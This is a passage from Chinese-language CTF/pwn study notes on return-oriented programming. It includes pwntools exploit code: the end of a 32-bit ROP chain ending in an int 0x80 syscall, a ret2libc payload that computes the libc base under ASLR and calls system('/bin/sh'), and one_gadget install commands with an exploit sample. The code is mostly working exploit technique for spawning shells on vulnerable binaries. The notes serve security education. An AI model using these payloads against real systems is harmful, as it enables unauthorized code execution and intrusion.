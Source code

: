 ```python
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0806cc25) # int 0x80
io.sendline(p)


```

##### 变种ROP：

开启了地址随机化，我们得到的地址都并不是真实地址，而是一个相对偏移：

做法其实跟之前一样，不同的仅仅是需要在前面加上libc_base 也就是先算出libc中的基址

```python
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
io.recvuntil("Maybe it's simple,O.o\n")
system = int(io.recvline(),16)
print hex(system)
libc_base = system - libc.sym['system']
bin_sh = libc_base + next(libc.search('/bin/sh'))
pop_rdi = libc_base + 0x2164f  # 0x000000000002164f : pop rdi ; ret 
ret = libc_base + 0x8aa        # 0x00000000000008aa : ret
payload = cyclic(136) + p64(pop_rdi) + p64(bin_sh) + p64(ret) + p64(system)

```



##### one_gadget:

one_gadget是libc中存在的一些执行execve("/bin/sh", NULL, NULL)的片段

```shell
#安装
sudo apt -y install ruby
sudo gem install one_gadget

#使用
$ one_gadget /lib/x86_64-linux-gnu/libc.so.6
```

```python
#exp案例
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
#获得libc
one_gadget = 0x10a2fc
printf_libc = libc.symbols['printf']
io.recvuntil('this:')
printf = int(io.recv(14),16)
libc_base = printf-printf_libc
#libc+one_gadget调用execve(bin/sh;null;null)
io.sendline(str(one_gadget+libc_base))

```
